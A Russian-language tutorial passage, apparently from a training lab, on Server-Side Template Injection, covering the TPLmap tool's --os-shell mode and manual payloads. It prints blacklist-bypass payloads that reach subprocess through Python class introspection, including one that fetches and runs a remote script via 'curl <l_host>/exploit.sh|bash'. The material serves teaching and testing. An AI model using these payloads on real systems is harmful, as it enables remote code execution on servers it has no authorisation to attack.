 ## TPLmap
[epinna/tplmap (github.com)](https://github.com/epinna/tplmap)

TPLmap – инструмент на Python для автоматического выявления и эксплуатации уязвимостей Server-Side Template Injection. TPLmap имеет схожие с SQLmap настройки и флаги. Использует несколько различных техник и векторов (включая blind-инъекции), а также техники выполнения кода и загрузки/выгрузки произвольных файлов.

TPLmap имеет в своем арсенале техники для десятка разных движков и шаблонов. А также обладает некоторыми техниками для поиска eval()-подобных инъекций кода в Python, Ruby, PHP, JavaScript. В случае успешной эксплуатации открывает интерактивную консоль.
### Как использовать TPLmap?
- В командной строке введите команду:

```
./tplmap.py --os-shell -u http://www.hacktory.lab/
```

где,

- `./tplmap.py` – исполняемый файл программы;
- `-u --url http://www.hacktory.lab/` – URL цели;
- `--os-shell` – запускает псевдотерминал в целевой операционной системе для выполнения желаемых кодов и команд.

## Ручное тестирование [Server Side Template Injection Payloads](https://github.com/payloadbox/ssti-payloads)
Payload выше можно изменять для обхода защиты чёрного списка. А именно:
**Замена "_" на “\\x5f” и "." на "\\x2E" или объединение строк массивов. Пример:** 
```
{{"".__class__}}  
{{""["\x5f\x5fclass\x5f\x5f"]}}
```
```
{{''.__class__.__mro__[1].__subclasses__()[287]}}  
{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[365]('curl <l_host>/exploit.sh|bash',shell=True,stdout=-1).communicate()}}
```
